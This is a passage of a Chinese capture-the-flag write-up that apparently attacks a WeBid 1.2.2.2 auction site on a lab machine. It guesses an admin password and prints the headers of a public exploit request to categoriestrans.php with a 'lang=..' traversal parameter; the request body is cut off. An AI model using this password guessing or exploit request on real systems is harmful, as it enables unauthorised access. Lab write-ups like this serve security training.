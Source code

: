 <img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404022019323.png" alt="image-20240402183835454" style="zoom:33%;" />

查看一下这个webid是啥：（或者搜robots.txt的内容）

找到了：https://github.com/renlok/WeBid

发现存在管理员登录页面：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404022019324.png" alt="image-20240402184201672" style="zoom:33%;" />

进行登录：

```apl
http://christmas.hmv/webid/admin/login.php
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404022019325.png" alt="image-20240402184248109" style="zoom:33%;" />

查看一下有无默认的账号密码，没有发现，使用前面的账号密码登录一下，显示登录失败：

```apl
MyPassword1@2023*
```

猜一下密码：

```apl
MyPassword2@2023*
```

登录进去了：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404022019326.png" alt="image-20240402184751890" style="zoom: 33%;" />

版本号为：`1.2.2.2 `

### 漏洞搜集

#### 查一下exploit.db

```bash
┌──(root㉿kali)-[/home/kali/temp/christmas/ftp]
└─# searchsploit webid 1.2.    
Exploits: No Results
Shellcodes: No Results
```

#### github和google找一下

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404022019327.png" alt="image-20240402185019978" style="zoom: 33%;" />

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404022019328.png" alt="image-20240402185222641" style="zoom:50%;" />

```bash
POST /Webid/admin/categoriestrans.php?lang=.. HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=sg9ouodbv9fupgvdp5ik8vm1d6
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Content-Type: application/x-www-form-urlencoded
Content-Length: 41

```